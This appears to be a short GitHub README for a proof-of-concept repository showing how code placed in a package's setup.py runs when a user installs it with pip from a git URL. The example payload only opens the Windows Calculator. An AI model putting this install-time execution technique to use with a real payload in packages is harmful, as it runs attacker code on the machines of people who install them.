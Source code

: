## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

The Malicious codes pushed in the repo by attacker will be executed!.

Hopefully we get a RC3.

![cat3](https://raw.githubusercontent.com/slvignesh05/RCE-PIP/refs/heads/main/Public/cat3.jpeg)
